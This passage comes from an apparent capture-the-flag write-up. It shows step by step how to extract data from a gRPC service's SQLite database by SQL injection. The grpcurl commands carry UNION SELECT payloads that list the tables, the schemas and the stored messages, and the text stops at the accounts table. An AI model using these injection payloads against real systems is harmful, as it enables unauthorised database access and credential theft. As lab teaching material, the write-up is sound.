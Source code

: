     
    
    oxdf@hacky$ grpcurl -d 'id: "320 union select tbl_name from sqlite_master where type=\"table\" and tbl_name NOT LIKE \"sqlite_%\""' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    message: "accounts"
    

The trick is making sure to nest `"` and `'` properly. It seems this
application is only sending back the first one, so I’ll add `group_concat()`
to get all of them:

    
    
    oxdf@hacky$ grpcurl -d 'id: "320 union select group_concat(tbl_name) from sqlite_master where type=\"table\" and tbl_name NOT LIKE \"sqlite_%\""' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    message: "accounts,messages"
    

#### Table Structures

The query from PayloadsAllTheThings to get the column names works:

    
    
    oxdf@hacky$ grpcurl -d 'id: "320 union select group_concat(sql) from sqlite_master where type!=\"meta\" and sql NOT NULL and name =\"messages\""' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    message: "CREATE TABLE messages(id INT UNIQUE, username TEXT UNIQUE,message TEXT)"
    

It’s returning the string that shows how the table was created. I can get both
in one query:

    
    
    oxdf@hacky$ grpcurl -d 'id: "320 union select group_concat(sql) from sqlite_master where type!=\"meta\" and sql NOT NULL"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    message: "CREATE TABLE \"accounts\" (\n\tusername TEXT UNIQUE,\n\tpassword TEXT\n),CREATE TABLE messages(id INT UNIQUE, username TEXT UNIQUE,message TEXT)"
    

`accounts` has `username` and `password`, `messages` has `id`, `username`, and
`message`.

#### messages

There are only two messages in the DB:

    
    
    oxdf@hacky$ grpcurl -d 'id: "320 union select group_concat(id || \":\" || username || \":\" || message) from messages"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    message: "1:admin:The admin is working hard to fix the issues.,652:0xdf:Will update soon."
    

I’m using `||` to concatenate columns, and then `group_concat` to get multiple
rows. The message from admin says the admin is working on issues, and the
other is the message for my current user.

#### accounts
